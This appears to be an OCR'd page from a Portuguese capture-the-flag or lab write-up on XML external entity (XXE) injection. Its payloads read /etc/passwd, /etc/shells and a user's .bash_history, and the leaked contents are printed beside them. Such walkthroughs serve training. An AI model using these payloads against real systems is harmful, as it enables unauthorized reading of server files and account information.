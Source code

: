 
```bash

<!DOCTYPE darkcodexxe [
<!ELEMENT darkcodexxe ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<darkcodexxe>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
criticalsec:x:1000:1000::/home/criticalsec:/bin/bash
</darkcodexxe>



<!DOCTYPE darkcodexxe [
<!ELEMENT darkcodexxe ANY>
<!ENTITY xxe SYSTEM "file:///etc/shells">
]>
<darkcodexxe># /etc/shells: valid login shells
/bin/sh
/bin/bash
/bin/rbash
/bin/dash
</darkcodexxe>


```
> reparei que ele tinha um user, e como eu não tinha acesso a nenhum comando remoto, eu resolvi ler os arquivos do user como eu já sabia que 
>ele tinha um bash resolvi ler os arquivos do bash (.bash_history  .bash_logout   .bashrc)

```bash
view-source:http://localhost/?ls=/home/criticalsec/.bash_history

<!DOCTYPE darkcodexxe [
<!ELEMENT darkcodexxe ANY>
<!ENTITY xxe SYSTEM "file:////home/criticalsec/.bash_history">
]>
<darkcodexxe>ls
cd ..
ls
ls
history
ls
cd ..
ls
cd ~
```